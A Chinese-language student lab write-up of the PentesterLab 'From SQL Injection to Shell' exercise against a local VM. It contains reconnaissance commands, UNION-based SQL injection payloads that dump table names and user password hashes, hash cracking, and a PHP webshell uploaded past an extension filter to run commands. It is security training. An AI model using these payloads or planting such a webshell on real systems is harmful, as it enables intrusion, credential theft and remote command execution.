

## chap0x07 From SQL Injection to Shell
### 实验环境
- attacker：kali（ip：10.0.2.6）
- victim：debian（ip：10.0.2.10）

网络拓扑图如下：


### 实验介绍
实验分为三个步骤：

1. Fingerprinting：指纹识别，收集有关Web应用程序和正在使用的技术的信息。
2. Detection and exploitation of SQL injection：检测和利用SQL注入，了解SQL注入的工作原理以及如何利用它们来检索信息。
3. Access to the administration pages and code execution：访问管理页面和代码执行，访问操作系统并运行命令。

### Fingerprinting
一、检查HTTP报头

通过使用netcat或telnet连接到Web应用程序，可以检索到大量信息：
```txt
telnet 10.0.2.10 80
GET / HTTP/1.1
Host: 10.0.2.10
```

得到服务器及PHP版本信息：
```txt
HTTP/1.1 400 Bad Request
Date: Wed, 21 Nov 2018 08:26:44 GMT
Server: Apache/2.2.16 (Debian)
Vary: Accept-Encoding
Content-Length: 301
Connection: close
Content-Type: text/html; charset=iso-8859-1
```

利用```nmap 10.0.2.10```扫描victim开放端口，结果如下：
```txt
Starting Nmap 7.70 ( https://nmap.org ) at 2018-11-21 16:38 CST
Nmap scan report for 10.0.2.10 (10.0.2.10)
Host is up (0.000081s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:95:26:EE (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 0.22 seconds
```

可以得知，victim的443端口并未开放，如果victim仅通过HTTPs访问，telnet或netcat将无法与其通信。

二、使用目录破解程序

利用工具wfuzz检测远程文件与文件夹，在attacker中执行命令：```wfuzz -w wordlist/general/big.txt --hc 404 http://10.0.2.10/FUZZ```

得到结果：
```txt
Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.

********************************************************
* Wfuzz 2.2.11 - The Web Fuzzer                        *
********************************************************

Target: http://10.0.2.10/FUZZ
Total requests: 3036

==================================================================
ID	Response   Lines      Word         Chars          Payload    
==================================================================

000138:  C=301      9 L	      28 W	    306 Ch	  "admin"
000547:  C=200     92 L	     141 W	   1858 Ch	  "cat"
000586:  C=403     10 L	      30 W	    285 Ch	  "cgi-bin/"
000642:  C=301      9 L	      28 W	    308 Ch	  "classes"
000761:  C=301      9 L	      28 W	    304 Ch	  "css"
001290:  C=200     40 L	      63 W	    796 Ch	  "header"
001362:  C=301      9 L	      28 W	    307 Ch	  "images"
001375:  C=200     71 L	     103 W	   1343 Ch	  "index"
002489:  C=200     70 L	     108 W	   1320 Ch	  "show"

Total time: 5.466188
Processed Requests: 3036
Filtered Requests: 3027
Requests/sec.: 555.4143
```

在attacker中执行命令：```wfuzz -w wordlist/general/common.txt --hc 404 http://10.0.2.10/FUZZ.php```

得到结果：
```txt
Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.

********************************************************
* Wfuzz 2.2.11 - The Web Fuzzer                        *
********************************************************

Target: http://10.0.2.10/FUZZ.php
Total requests: 950

==================================================================
ID	Response   Lines      Word         Chars          Payload    
==================================================================

000076:  C=200     96 L	     148 W	   2022 Ch	  "all"
000167:  C=200     92 L	     141 W	   1858 Ch	  "cat"
000406:  C=200     40 L	      63 W	    796 Ch	  "header"
000438:  C=200     71 L	     103 W	   1343 Ch	  "index"
000761:  C=200     70 L	     108 W	   1320 Ch	  "show"

Total time: 1.306777
Processed Requests: 950
Filtered Requests: 945
Requests/sec.: 726.9789
```

### Detection and exploitation of SQL injection

一、SQL注入检测

a、基于整数的检测 

在attacker中访问：```10.0.2.10/cat.php?id =1```

显示如下：


在attacker中访问：```10.0.2.10/cat.php?id =2-1```，若页面与```id=1```时相同，则可能存在SQL注入

显示如下：


在attacker中访问：```10.0.2.10/cat.php?id =2-1'```，因为多输入一个引号，会收到错误提示

显示如下：


b、基于字符串的检测
- 奇数个```'```会导致语法错误，所以用偶数个```'```测试
- 使用```--```注释掉查询的结尾

二、SQL注入的开发

#### 利用UNION关键字进行SQL注入

基本步骤：
```txt
1、找到执行UNION的列数
2、查找页面中回显的列
3、从数据库元表中检索信息
4、从其他表/数据库中检索信息
```

在attacker中访问：```10.0.2.10/cat.php?id=1 union select 1```，收到错误提示如下：


反复测试，直至访问```10.0.2.15/cat.php?id=1 union select 1,2,3,4```时得到正确页面，而增加到5时又出现错误，由此得知select语句一共有4列


还可以用```order by```猜测列的数量。当输入列号大于正确列数时会报错，显示如下：


#### 检索信息

a、数据库版本信息：```http://10.0.2.10/cat.php?id=1 UNION SELECT 1, @@version,3,4```

显示如下：


b、当前用户信息：```http://10.0.2.10/cat.php?id=1 UNION SELECT 1, current_user(),3,4```

显示如下：


c、当前使用的数据库信息：```http://10.0.2.10/cat.php?id=1%20UNION%20SELECT%201,%20database(),3,4```

显示如下：


d、获取数据库所有表名：```http://10.0.2.10/cat.php?id=1 UNION SELECT 1,table_name ,3,4 FROM information_schema.tables```

显示如下：


e、获取数据库所有列名：```http://10.0.2.10/cat.php?id=1 UNION SELECT 1,column_name ,3,4 FROM information_schema.columns```

显示如下：


e、获取表与列的对应关系：```http://10.0.2.10/cat.php?id=1 UNION SELECT 1,concat(table_name,':', column_name),3,4 FROM information_schema.columns```

显示如下：


f、获取用户名和密码：```http://10.0.2.10/cat.php?id=1 UNION SELECT 1,concat(login,':',password),3,4 FROM users```


### Access to the administration pages and code execution

一、破解密码

a、搜索引擎：如果哈希值没有加盐，可以通过搜索引擎搜索哈希值，就可以得到明文密码

b、John-The-Ripper：```http://www.openwall.com/john/```，也可以通过john工具解密

利用搜索引擎搜索哈希值```8efe310f9ab3efeae8d410a8e0166eb2```得到密码：```P4ssw0rd```

显示如下：


二、植入webshell

使用以下webshell代码，在victim中执行命令：
```txt
<？php 
  system（$ _ GET ['cmd']）; 
？>
```

将其命名为shell.php，并在```10.0.2.10/admin/new.php```页面上传代码



为了防止网站过滤 .php 结尾的文件，将文件重命名为shell.php.test

上传之前的页面：


上传成功的页面：


可以看到自定义标题为```shell_test```的文件已经上传成功

在浏览器中访问：```http://10.0.2.10/admin/uploads/shell.php.test?cmd=uname```

在victim端会执行指令uname并返回当前内核，显示如下：


### 参考链接
- [From SQL Injection to Shell](https://pentesterlab.com/exercises/from_sqli_to_shell/course)